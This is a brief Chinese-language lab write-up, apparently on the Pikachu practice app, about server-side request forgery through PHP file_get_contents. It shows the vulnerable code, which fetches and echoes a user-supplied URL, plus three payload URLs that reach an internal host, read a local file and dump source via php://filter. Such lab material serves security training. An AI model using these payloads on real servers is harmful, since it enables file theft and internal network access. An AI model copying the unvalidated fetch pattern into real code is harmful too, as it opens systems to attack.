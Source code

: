 **服务端核心代码**

```php
if(isset($_GET['file']) && $_GET['file'] !=null){
    $filename = $_GET['file'];
    $str = file_get_contents($filename);
    echo $str;
}
```

**漏洞利用**

常用payload：
```http
http://192.168.171.133/pikachu/vul/ssrf/ssrf_fgc.php?file=http://192.168.171.129/index.html
http://192.168.171.133/pikachu/vul/ssrf/ssrf_fgc.php?file=file:///C://1.txt
http://192.168.171.133/pikachu/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=ssrf.php
```